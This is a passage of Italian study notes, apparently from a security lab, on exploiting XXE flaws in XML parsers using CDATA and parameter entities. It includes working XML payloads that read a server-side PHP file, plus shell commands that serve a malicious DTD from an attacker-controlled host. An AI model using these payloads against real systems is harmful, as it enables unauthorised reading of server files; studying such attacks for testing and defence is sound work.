 However, this attack no longer works with modern web servers (e.g., Apache), as they protect against entity self-reference.

### Exploiting con CDATA

finora abbiamo visto vulnerabilita' del DOCTYPE, vediamo come sfruttare il CDATA ora.
questo attacco puo' essere utile quando non stiamo parlando di applicazioni PHP e non riusciamo quindi a leggere file che non rispecchiano la struttura xml (non possiamo usare la codifica base64 quindi)

Il campo CDATA non ha bisogno di essere un XML valido!
Proviamo a creare una richiesta valida...

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
<root>
<name>asdasd</name>
<tel>asdasd</tel>
<email>&joined;</email>
<message>asdasd</message>
</root>
```

Questa qui cosi com'e' non funziona perche' XML prevents joining internal and external entities
Va usato anche il XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.15.253:8000/xxe.dtd">
  %xxe;
]>
<root>
<name>asdasd</name>
<tel>asdasd</tel>
<email>&joined;</email>
<message>asdasd</message>
</root>
```

e sul nostro computer dobbiamo creare un DTD locale con l'entity che ci interessa

```shell
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
```

